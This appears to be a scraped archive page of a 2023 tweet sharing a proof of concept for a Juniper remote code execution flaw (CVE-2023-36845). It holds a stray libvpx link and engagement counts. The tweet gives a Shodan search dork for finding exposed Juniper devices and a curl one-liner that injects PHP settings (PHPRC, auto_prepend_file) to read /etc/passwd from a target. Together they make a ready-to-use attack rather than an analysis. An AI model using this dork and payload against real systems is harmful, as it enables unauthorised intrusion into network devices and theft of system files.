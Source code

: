 * https://chromium.googlesource.com/webm/libvpx/+/3fbd1dca6a4d2dad332a2110d646e4ffef36d590

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# zapstiko
**https://twitter.com/zapstiko/status/1707333333292838946 _at 2023-09-28, 09:56:02_**
<blockquote>
finally Juniper - Remote Code Execution 🔥 ( CVE-2023-36845 )  
Shodan Dork : title:"Juniper" http.favicon.hash:2141724739  

Poc: curl &lt;TARGET&gt; -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

#bugbountytips #bugbounty #CVE-2023-36845 #RCE https://t.co/FbXzJzcxHW
</blockquote>

<table><tr>
<td><img src="pictures/98fc07f083e884523a1ab1281a025a296750659e0cf40f85bd1248212fe92c9d.jpg" alt="98fc07f083e884523a1ab1281a025a296750659e0cf40f85bd1248212fe92c9d.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>293</code></td>
</tr></table>

---